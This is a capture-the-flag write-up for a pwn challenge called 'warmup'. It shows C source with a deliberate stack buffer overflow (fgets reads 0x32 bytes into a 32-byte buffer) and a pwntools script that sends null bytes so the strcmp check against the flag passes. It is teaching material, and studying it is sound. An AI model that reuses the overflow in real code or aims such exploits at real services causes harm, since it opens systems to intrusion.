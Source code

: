 # warmup
category: pwn | 316 points | 17 solves | author: main

## Description
Just a warmup. `nc challs.sieberrsec.tech 3476`

```c
#include <stdio.h>
int main() {
    char input[32];
    char flag[32];
    // read flag file
    FILE *f = fopen("flag", "r");
    fgets(flag, 32, f);
    fclose(f);
    // read the user's guess
    fgets(input, 0x32, stdin);
    // if user's guess matches the flag
    if (!strcmp(flag,input)) {
        puts("Predicted!");
        system("cat flag");
    } else puts("Your flag was wrong :(");
}
```

N.B. please do not try to bruteforce the flag. Attempts at doing so will be taken as an attack on server infrastructure, and will leave you liable for disqualification.

## Solution
This is a chall I didn't originally manage to get. 

```c 
    char input[32];
    char flag[32];
```
the input is declared as 32 bytes, and the flag is declared immediately after. 

the second (free) hint is a link to <https://en.wikipedia.org/wiki/Null-terminated_string>.

> A common bug was to not allocate the additional space for the NUL, so it was written over adjacent memory

The length of the `input` buffer is 32 bytes, but the program reads `0x32` or 50 bytes. So you can overwrite the flag after sending 32 bytes. 

the program also uses `strcmp()`. 
> strcmp() checks for the occurrence of NULL character in string, so that it will termination the function. ([source](https://www.quora.com/Does-STRCMP-check-for-NULL))

The idea is 
```
| input (32 bytes) | flag (32 bytes) |

sending NULL + 31 bytes + NULL

| input (NULL + 31 bytes) | flag (NULL + 31) | 

strcmp() will only read until NULL, and not the rest.
```

a code like this would work 
```python
from pwn import *

context.log_level="debug"

p = remote("challs.sieberrsec.tech", 3476)

#a null byte is b"\x00"
p.sendline(b"\x00"*33)

p.interactive()
```
as long as you send between 33-48 NULL bytes. any shorter will not overwrite the flag and any further would overwrite too much. 

![warmup1.png](warmup1.png)

IRS{nU1L_t3rminat0r}

## comments
- Values are on the stack according to where they're declared
- However, sometimes compilers add some "buffer" in between values
- Thus, decompilers etc help

^^thanks sean <br>
warmup chall with 17 solves very haha <br>
thanks sean i understand now 
